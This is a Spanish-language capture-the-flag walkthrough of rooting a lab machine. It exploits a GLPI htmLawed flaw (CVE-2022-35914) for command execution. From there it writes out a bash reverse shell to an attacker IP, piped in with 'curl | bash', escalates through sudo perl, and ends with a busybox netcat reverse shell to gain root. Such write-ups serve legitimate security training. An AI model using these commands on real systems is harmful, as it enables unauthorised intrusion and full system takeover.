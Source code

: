 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.

```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 192.168.80.133 -oN escaneo
```

<img src="Pasted image 20240429095853.png">

Pondremos la ip en el navegador para ver que nos esconde.
<img src="Pasted image 20240429112201.png">

Vemos que nos da la pagina por defecto de apache. Para averiguar si hay directorios o archivos ocultos vamos a realizar un fuzzing de la web.

```
dirsearch -u http://192.168.80.133
```

<img src="Pasted image 20240429113636.png">

Vemos que tiene un robots.txt, así que vamos a ver que contiene.
<img src="Pasted image 20240429113711.png">

Vemos que tiene una web, asi que vamos a ver que contiene.
<img src="Pasted image 20240429113831.png">

Vemos que nos está diciendo la versión de la plataforma, asi que podemos buscar un exploit para ello. 

```
CVE-2022-35914

https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/
```


En esta web, nos dice que hay una archivo que permite introducir comandshell. Este archivo es /htmLawedTest.php

<img src="Pasted image 20240429120546.png">

Una vez estamos en ella, pondremos el siguiente comando para ver si podemos ejecutar comandos del servidor.

```
id
```

Tendremos que modificar en el apartado strings el input de hook y escribir exec y darle al enter.
<img src="Pasted image 20240429120947.png">
<img src="Pasted image 20240429121009.png">

Vemos que podemos escribir comandos del servidor. Entonces vamos a intentar lanzar una revershell. Crearemos un index.hml con lo siguiente.

```
 # !/bin/bash
 sh -i >& /dev/tcp/192.168.80.129/4444 0>&1
```

Seguidamente colgaremos el archivo en un servidor python.

```
python3 -m http.server 80
```

<img src="Pasted image 20240429130458.png">

Nos pondremos a la escucha con netcat en el puerto que hemos eleguido.

```
nc -lnvp 4444
```

<img src="Pasted image 20240429130714.png">

Finalmente en la web, ejecutaremos la reverse shell.

```
curl 192.168.80.129/index.html | bash
```

<img src="Pasted image 20240429130937.png">
<img src="Pasted image 20240429140733.png">

Para poder mostrar un prompt escribiremos lo siguinte en la shell del servidor.

```
script /dev/null -c bash
```

<img src="Pasted image 20240429140854.png">

Una vez obtenemos la shell escalaremos privilegios. Para ello miraremos los binarios que tenemos privilegios.

```
sudo -l
```

<img src="Pasted image 20240429141009.png">

Vemos que tenemos el binario en posesion del usuario noname. Así que vamos a explotarlo para ganarnos ese usuario.

```
sudo -u noname /usr/bin/perl -e 'exec "/bin/sh";'
```

<img src="Pasted image 20240429141249.png">

Una vez tenemos el control de este usuario, vamo a ver que esconde en la carpeta de este.

<img src="Pasted image 20240429141409.png">

Hemos podido ver que contiene la flag de usuario. Ahora vamos a escalar a root. Para ello vamos a volver a mirar los binarios.
<img src="Pasted image 20240429141541.png">

Vemos que tiene el binario iex en posesion de root. Lo vamo a ejecutar a ver que pasa.

```
sudo /usr/bin/bash
```

<img src="Pasted image 20240429142100.png">

Vemos que nos abre una consola. Nos lanzaremos una reverse shell para escalar al usuario root.

```
(Víctima)
System.cmd("busybox", ["nc", "192.168.80.129", "2222", "-e", "/bin/bash"], [])
```

```
(Local)
nc -lnvp 2222
```

<img src="Pasted image 20240429142703.png">
<img src="Pasted image 20240429142735.png">

Solo nos faltará ir a la carpeta root y printar la flag. 
<img src="Pasted image 20240429142827.png">
